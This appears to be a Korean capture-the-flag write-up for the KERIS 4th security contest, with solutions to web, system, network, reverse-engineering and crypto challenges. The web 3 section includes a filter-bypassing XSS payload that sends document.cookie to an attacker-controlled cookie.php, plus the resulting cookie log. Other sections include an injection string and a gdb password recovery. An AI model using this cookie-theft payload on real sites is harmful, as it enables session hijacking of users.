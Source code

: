 # KERIS 제 4회 정보보안경진대회
서울 8 전국 12

![](./bingo.png)

## 법률이랑 일반이였나 하는 위에 2줄
구글링

## 시스템 1

## 시스템 2
`exec()`로 명령어를 입력받아 쉘에서 실행하는 프로그램이다.

`cat flag` 했더니 플래그가 나왔다. 약간 어이없었는데 플래그 내용도 fake love 어쩌고 하길래 페이크인 줄 알았는데 진짜였다(...).

## 시스템 3

## 웹 1
`' OR '1'=='1`이였나 했더니 `alert()`로 플래그가 나왔다.

## 웹 2
소스를 봤더니 이상한 이미지를 로드하고 막 나눠서 뿌린다. 원래 이미지의 src를 구해서 들어가면 플래그가 적혀있다.

## 웹 3
게시글을 올리고 바로 볼 수 있는데 XSS가 발생한다. 

쿠키를 확인해보니 여기에 플래그가 들어간다! 이러길래 여기에 스크립트를 올려놓으면 쿠키가 설정된 봇이 읽는 것 같았다.

서버에 `cookie.php`를 올려두고 `location.href=` 어쩌고 할려고 했는데 `location`이 들어가면 XSS라면서 제대로 등록되지 않는다.
`XMLHttpRequest`로 GET 리퀘스트를 보내는 방법으로 쿠키 탈취를 시도했는데 `'`, `"`가 필터링되어서 없어져 버린다.

```js
x = String(/some-string/) // "/some-string/"
x = x.substring(1, x.length-1) // "some-string"
```

위와 같은 방법으로 정규식을 이용해서 필터링 bypass를 시도해봤는데 코드가 너무 길어져서 `input error`가 나온다.

```js
function httpGet(e){
    var t = new XMLHttpRequest;
    return t.open(`GET`, e, !1), t.send(null), t.responseText
}
var u = `http://{server-addr}/cookie.php?c=`;
httpGet(u+document.cookie);
```

구글링을 열심히 해보니 \`를 이용해서 문자열을 선언해도 JS에서는 제대로 인식한다는 것을 알 수 있었다.

대충 위와 같이 스크립트를 짜고(난독화 결과) 쓸데없는 공백과 개행을 없애고 포스팅했다.

스크립트가 제대로 들어간 것을 확인한 뒤 콘솔을 보니까 보안정책 어쩌고 나오길래 안되는 줄 알았다.

```
flag=Flag is Here!!
flag=Flag is Here!!
flag=w3_give_@dviCe_bUT_w3_CaNnoT_give_C0NdUct
flag=Flag is Here!!
flag=Flag is Here!!
flag=Flag is Here!!
flag=Flag is Here!!
flag=Flag is Here!!
```

서버의 `cookie.txt`를 보니까 플래그가 나와있었다.

`w3_give_@dviCe_bUT_w3_CaNnoT_give_C0NdUct`

## 네트워크 1

## 네트워크 2

## 네트워크 3
3단계로 구성되어 있다.

### 1
```
Router> show version
    [+] FLAG1{ C15c0_Pack3t_Tr4c3r_H4ve_U }
```

### 2
```
Router> enable
Router# configure terminal
Router(config)# hostname keris2018
    [+] Ok, you set hostname
Router(config)# enable secret keris2018secret
    [+] Ok, you set enable secret
Router(config)# enable password whoisthewinnerofkeris2018
    [+] Ok, you set enable password
    FLAG2{ Ev3r_u5ed_ittttt? }
```

### 3
```
Router(config)# exit
Router# show running-config
    enable password 7 08364441000A111F171C050A242E3627353E27010E0551510701
```

`flag1_flag2_encrypt1234` 형식이다.
`C15c0_Pack3t_Tr4c3r_H4ve_U_Ev3r_u5ed_ittttt?_08364441000A111F171C050A242E3627353E27010E0551510701`

## 역공학 1
```bash
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400686 <+0>:	push   rbp
   0x0000000000400687 <+1>:	mov    rbp,rsp
   0x000000000040068a <+4>:	sub    rsp,0x10
   0x000000000040068e <+8>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000400697 <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000040069b <+21>:	xor    eax,eax
   0x000000000040069d <+23>:	mov    edi,0x400784
   0x00000000004006a2 <+28>:	call   0x400520 <puts@plt>
   0x00000000004006a7 <+33>:	lea    rax,[rbp-0xc]
   0x00000000004006ab <+37>:	mov    rsi,rax
   0x00000000004006ae <+40>:	mov    edi,0x400797
   0x00000000004006b3 <+45>:	mov    eax,0x0
   0x00000000004006b8 <+50>:	call   0x400560 <__isoc99_scanf@plt>
   0x00000000004006bd <+55>:	mov    eax,DWORD PTR [rbp-0xc]
   0x00000000004006c0 <+58>:	cmp    eax,0x1c05523
   0x00000000004006c5 <+63>:	jne    0x4006db <main+85>
   0x00000000004006c7 <+65>:	mov    edi,0x40079a
   0x00000000004006cc <+70>:	call   0x400540 <system@plt>
   0x00000000004006d1 <+75>:	mov    edi,0x0
   0x00000000004006d6 <+80>:	call   0x400570 <exit@plt>
   0x00000000004006db <+85>:	mov    edi,0x4007a3
   0x00000000004006e0 <+90>:	call   0x400520 <puts@plt>
   0x00000000004006e5 <+95>:	mov    eax,0x0
   0x00000000004006ea <+100>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004006ee <+104>:	xor    rdx,QWORD PTR fs:0x28
   0x00000000004006f7 <+113>:	je     0x4006fe <main+120>
   0x00000000004006f9 <+115>:	call   0x400530 <__stack_chk_fail@plt>
   0x00000000004006fe <+120>:	leave  
   0x00000000004006ff <+121>:	ret    
End of assembler dump.
gdb-peda$ x/s 0x400784
0x400784:	"Type your password"
gdb-peda$ x/s 0x400797
0x400797:	"%d"
gdb-peda$ x/s 0x40079a
0x40079a:	"cat flag"
gdb-peda$ x/s 0x4007a3
0x4007a3:	"Wrong..."
gdb-peda$
```

`cmp eax,0x1c05523`에서 입력값을 `0x1c05523`와 비교한다. 따라서 패스워드는 `29381923`

패스워드를 정확하게 입력하면 플래그를 준다.

## 역공학 2

## 역공학 3

## 암호학 1
`today is cloudy. so my feeling is not good either.`

## 암호학 2 (예상풀이)
~~뚜까~~

1. 스케테일임
2. 키도 없음
3. 입력 제한시간이 매우 짧음

> => 입력 후딱 받아서 키는 브포하고 가장 평문일 가능성이 높은 값을 찾아서 보내주기 => 엥 이런 solver를 시간 내에 짜는 게 가능해? => 어차피 나오는 평문은 한정되어 있지 않을까(정성이 대단하던데)

예상풀이:

1. pwntools 몇번 돌려서 암호화된 텍스트 몇개를 저장
2. https://www.dcode.fr/scytale-cipher
여기서 노가다해서 원래 평문을 찾아 매핑
3. 다시 pwntools에서 암호문을 recv, 이에 해당하는 평문을 출력(만약 저장된 값이 아니면 close해서 던지고 다시 봄)

문제:
평문은 한정되어 있어도 key를 엄청 달리해서 만들었을 수도 있음(실제로 그런듯)

예상풀이:
암호문:평문으로 매핑할 때 함께 (예상)평문과 key가 다른 암호문도 매핑 => 매크로를 만든다

문제:
시간이 오래 걸린다 

결론:
그냥 몇개만 저장해두고 key랑 암호문이 때려맞길 기대한다 => ??? => profit!!!

## 암호학 3
